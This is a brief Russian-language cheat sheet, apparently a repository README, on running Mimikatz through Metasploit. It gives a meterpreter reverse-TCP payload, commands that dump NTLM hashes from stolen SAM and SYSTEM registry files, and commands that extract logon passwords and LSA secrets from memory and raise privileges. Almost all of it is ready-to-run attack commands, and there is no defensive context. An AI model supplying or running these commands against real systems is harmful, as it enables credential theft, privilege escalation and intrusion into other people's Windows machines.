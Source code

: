 # mimi

МИМИКАТЗ в метасплойт

use windows/x64/meterpreter_reverse_tcp

![Uploading image.png…]()


kiwi_cmd lsadump::sam

https://github.com/gentilkiwi/mimikatz/releases 
Как извлечь хеш пароля пользователя NTLM из файлов реестра


Если есть готвый стянуты файл sam  и system
.\mimikatz.exe
lsadump::sam /system:C:\Share-Server\files\SYSTEM /sam:C:\Share-Server\files\SAM

Если из памяти...
После запуска Mimikatz можно использовать следующие команды для вытягивания паролей из памяти Windows:

- `privilege::debug` - открывает привилегии отладки для текущего процесса.
- `sekurlsa::logonPasswords` - выводит введенные пользователем логины и хэши паролей.
- `lsadump::sam` - вытягивает пароли из базы данных SAM.
- `lsadump::lsa` - вытягивает хэши паролей из дискового хранилища LSA.
- `token::elevate` - поднимает привилегии на максимальный уровень.
- `token::whoami` - выводит информацию о текущем пользователе.



